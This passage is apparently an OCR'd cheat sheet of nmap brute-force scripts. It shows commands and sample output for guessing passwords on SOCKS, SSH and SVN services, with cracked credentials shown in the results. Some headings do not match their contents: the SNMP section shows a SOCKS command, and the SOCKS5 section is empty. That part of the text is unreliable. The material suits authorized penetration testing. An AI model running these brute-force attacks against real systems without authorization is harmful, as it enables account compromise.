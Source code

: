 


### SNMP - Brute-Force                              
_Attempts to find an SNMP community string by Brute-Force guessing_
     
     root@hostname: ~/ # nmap --script socks-brute -p 1080 192.168.1.12

     |PORT     STATE SERVICE
     |1080/tcp open  socks
     | socks-brute:
     |   Accounts
     |     patrik:12345 - Valid credentials
     |   Statistics
     |_    Performed 1921 guesses in 6 seconds, average tps: 320




### SOCKS5-Proxy - Brute-Force                         
_Performs Brute-Force password auditing against SOCKS 5 proxy servers_
     
     root@hostname: ~/ # 



### SSH - Brute-Force                               
_Performs brute-force password guessing against ssh servers_
     
     root@hostname: ~/ #   nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s 192.168.1.12

     |22/ssh open  ssh
     | ssh-brute:
     |  Accounts
     |    username:password
     |  Statistics
     |_   Performed 32 guesses in 25 seconds.

### SVN - Brute-Force                               
_Performs Brute-Force password auditing against Subversion source code control servers_
     
     root@hostname: ~/ # nmap --script svn-brute --script-args svn-brute.repo=/svn/ -p 3690 192.168.1.12

     |PORT     STATE SERVICE REASON
     |3690/tcp open  svn     syn-ack
     | svn-brute:
     |   Accounts
     |_    patrik:secret => Login correct
